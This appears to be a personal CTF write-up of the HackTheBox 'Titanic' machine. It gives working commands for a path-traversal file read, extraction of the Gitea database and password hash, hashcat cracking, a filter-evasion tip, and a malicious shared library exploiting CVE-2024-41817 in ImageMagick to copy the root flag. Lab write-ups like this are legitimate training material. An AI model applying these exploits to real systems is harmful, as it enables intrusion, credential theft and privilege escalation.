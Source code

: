 
2025-03-19 22:57

Source: #htb #Boot2root 

rustscan shows port 80 and 22

add to `etc/hosts` 
```sh
echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts
```
### Enumeration

The website only has one button that is interactable i.e. validate trip. When we validate a trip, we download the ticket 

The request when captured on burp looks like 
```
GET /download?ticket=random-int.json HTTP/1.1
```
since the ticket reading functionality is not implemented securely, [[LFI]] we can replace the name of the ticket file with the one we want to read. For example `/etc/passwd` 

- we see a user named developer
- we can directly read the `user.txt` flag by replacing ticket parameters value to `/home/developer/user.txt`

since ssh key files aren't readable we read the `etc/hosts` and see a subdomain  - `dev.titanic.htb` - 
after adding this to our `etc/hosts` file and visiting the website we see This subdomain has `gitea` on it

browsing around in `gitea` we see an explore tab, it has 2 repos 
From the `docker-compose.yml` file we find out the path to the `gitea` directory

Searching on the web we find that the default config files of `gitea` are stored in `config/app.ini`

Pull out the default config via LFI

```sh
curl --path-as-is 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini'
```

From the configure we find out the path to the database
```sh
curl -s "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

> [!NOTE]
> If in a CTF using UNION or SELECT is blocked then try using a different case for those words eg. Union Select. If a DB is vulnerable to SQLite injection you could use a known username eg.admin to drop table details using 

Open `gitea.db` in SQLite: 
```
sqlite3 gitea.db  
sqlite> .tables  
sqlite> SELECT lower_name, passwd, salt FROM user;
```

We retrieve a hashed password (and salt) for the `developer` user.

The hash can’t be directly cracked by [[Hashcat]],  convert it manually or use [gitea2hashcat.py](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py) script to format it:

```sh
hashcat -m 10900 gitea_hash.txt rockyou.txt
```
### Privesc

[[find]] directories w write perms
```sh
find /opt -writable -type d 2>/dev/null
```

A quick `sudo -l` check reveals no direct sudo privileges. Exploring `/opt`, we find a `scripts` folder containing `identify_images.sh`. Inspecting the file, we see it calls ImageMagick’s `identify` command on uploaded images.

find path to magick and version using 
```
$ which magick
/usr/bin/magick

$ /usr/bin/magick --version
Version: ImageMagick 7.1.1-35
```

There is a matching CVE-2024-41817 under this version that allows arbitrary code execution by loading malicious shared libraries into the current working directory when running `ImageMagick`: [Github](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

From identify_images.sh we know that the directory we need is /opt/app/static/assets/images/. Let’s create a library that will copy the /root/root.txt file and change its permissions:

```sh
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```

After a few seconds, a flag will appear in the directory
### References
https://app.hackthebox.com/machines/648
https://www.pentestnotes.ru/en/writeups/hackthebox/titanic-htb-writeup/